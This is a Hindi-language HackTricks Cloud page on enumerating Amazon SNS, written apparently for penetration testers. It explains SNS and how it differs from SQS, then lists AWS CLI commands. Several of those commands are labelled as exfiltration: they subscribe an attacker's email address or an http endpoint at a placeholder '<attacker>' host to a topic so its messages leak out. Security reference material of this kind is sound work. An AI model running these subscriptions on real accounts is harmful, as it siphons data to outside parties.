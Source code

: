 # AWS - SNS एनुम

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित** देखना चाहते हैं या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में PR जमा करके साझा करें।

</details>

## SNS

अमेज़न सिम्पल नोटिफ़िकेशन सेवा (Amazon SNS) एक **पूरी तरह से प्रबंधित संदेश सेवा** है जो **एप्लिकेशन-से-एप्लिकेशन** (A2A) और **एप्लिकेशन-से-व्यक्ति** (A2P) संचार के लिए है।

A2A पब / सब कार्यक्षमता उच्च-परिचालन, पुश-आधारित, बहुत-से-बहुत वितरित सिस्टम, माइक्रोसर्विसेज़, और इवेंट-चलित सर्वरलेस एप्लिकेशन के बीच **विषयों** को प्रदान करता है। अमेज़न एसएनएस विषयों का उपयोग करके, आपके प्रकाशक सिस्टम संदेशों को **बड़ी संख्या में सदस्य सिस्टमों** को फैनआउट कर सकते हैं।

### **SQS के साथ अंतर**

**SQS** एक **कतार-आधारित** सेवा है जो बिंदु-से-बिंदु संचार की अनुमति देती है, सुनिश्चित करती है कि संदेश **केवल एक उपभोक्ता** द्वारा प्रसंस्कृत होते हैं। यह **कम से कम एक बार वितरण** प्रदान करता है, मानक और FIFO कतारों का समर्थन करता है, और पुनः प्रयासों और विलंबित प्रसंस्करण के लिए संदेश रखाव की अनुमति देता है।\
वहीं, **SNS** एक **प्रकाशित / सदस्यता-आधारित सेवा** है, जो **एक-से-बहुत** संचार को **एक साथ कई सदस्यों** को संदेश प्रसारित करके संचार करने की सुविधा प्रदान करती है। यह **ईमेल, एसएमएस, लैम्बडा फ़ंक्शन्स, और HTTP / HTTPS** जैसे विभिन्न सदस्यता अंत-बिंदुओं का समर्थन करता है, और लक्षित संदेश वितरण के लिए फ़िल्टरिंग मेकेनिज़म प्रदान करता है।\
जबकि दोनों सेवाएं वितरित सिस्टमों में घटकों के बीच अलगाव करने की सुविधा प्रदान करती हैं, SQS कतारी संचार पर ध्यान केंद्रित करती है, और SNS इवेंट-चलित, फैन-आउट संचार पैटर्न पर जोर देती है।

### **एनुमरेशन**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सदस्यों का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता है)।

इसके अलावा, यदि `--topic-arn` क्षेत्रफल को संबंधित करता है, तो सुनिश्चित करें कि आप **`--region`** में सही क्षेत्रफल निर्दिष्ट करें या आपको पहुंच की अनुमति नहीं है लेकिन समस्या क्षेत्रफल है।
{% endhint %}

### अप्रमाणित पहुंच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### प्रिविलेज एस्कलेशन

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### स्थिरता

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [डिस्कॉर्ड समूह](https://discord.gg/hRep4RUj7f) या [टेलीग्राम समूह](https://t.me/peass) में शामिल हों** या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें**।
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

